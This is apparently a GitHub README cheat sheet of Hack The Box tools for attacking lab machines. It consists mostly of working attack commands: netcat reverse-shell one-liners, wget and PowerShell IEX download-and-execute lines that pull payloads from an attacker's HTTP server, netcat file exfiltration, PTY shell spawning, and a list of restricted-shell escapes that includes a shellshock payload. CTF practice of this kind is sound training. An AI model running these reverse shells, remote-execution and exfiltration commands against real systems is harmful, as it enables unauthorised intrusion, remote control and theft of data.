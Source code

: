 # Hackthebox tools
**shell.php and shell.ps1** : Use for reverse shell when uploaded to vuln machine
```shell
# Listen for reverse shell
nc -lnvp <port number> 
# Use netcat for reverse shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip address> <port> >/tmp/f
# or this
nc -e /bin/sh <ip address> <port>
```
**les.sh, LinEnum.sh, lse.sh (Recommended)** : Use for detect vuln in Linux machine

**Sherlock.ps1** : Use for detect vuln in Windows machine

### How to upload files to vuln linux machine
In your machine type : 
```shell
python -m SimpleHTTPServer
```
In vuln machine type : 
```shell
wget (your ip address):8000/(file to upload)
```
Example : 
```shell
wget 10.10.14.62:8000/les.sh
```
### How to execute powershell script to vuln windows machine
In your machine type : 
```shell
python -m SimpleHTTPServer
```
In vuln machine type : 
```shell
# if in powershell
IEX(New-Object Net.WebClient).downloadString('http://<ip address>:8000/<file>')
# or if in cmd
powershell IEX(New-Object Net.WebClient).downloadString('http://<ip address>:8000/<file>')
```
  
Example : 
```shell
powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.12.81:8000/shell.ps1')
```
### How to spawn bash shell
```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
### How to download file using netcat
```shell
# In your machine
nc -lnvp 6666 > file
# In vuln machine
nc -w 3 <your ip> 6666 < file
```
### How to escape rbash
```shell
ftp > !/bin/sh or !/bin/bash
gdb > !/bin/sh or !/bin/bash
more/man/less > !/bin/sh or !/bin/bash
vim > !/bin/sh or !/bin/bash
vim > :python import os; os.system("/bin/bash")
scp > scp -S /path/yourscript x y:
awk > awk 'BEGIN {system("/bin/sh or /bin/bash")}'
find > find / -name test -exec /bin/sh or /bin/bash \;
except > except spawn sh then sh.
python > python -c 'import os; os.system("/bin/sh")'
php > php -a then exec("sh -i");
perl > perl -e 'exec "/bin/sh";'
lua > os.execute('/bin/sh').
ruby > exec "/bin/sh"
ssh > ssh username@IP - t "/bin/sh" or "/bin/bash"
ssh2 > ssh username@IP -t "bash --noprofile"
ssh3 > ssh username@IP -t "() { :; }; /bin/bash" (shellshock)
ssh4 > ssh -o ProxyCommand="sh -c /tmp/yourfile.sh" 127.0.0.1 (SUID)
git > git help status > you can run it then !/bin/bash
pico > pico -s "/bin/bash" then you can write /bin/bash and then CTRL + T
zip > zip /tmp/test.zip /tmp/test -T --unzip-command="sh -c /bin/bash"
tar > tar cf /dev/null testfile --checkpoint=1 --checkpoint-action=exec=/bin/bash
```
### Useful website
[Pentest Monkey (Reverse shell script) ](http://pentestmonkey.net/)

[GTFObins (Privilege escalation & Escape Rbash)](https://gtfobins.github.io)

[Guide to Privilege Escalation](https://payatu.com/guide-linux-privilege-escalation/)
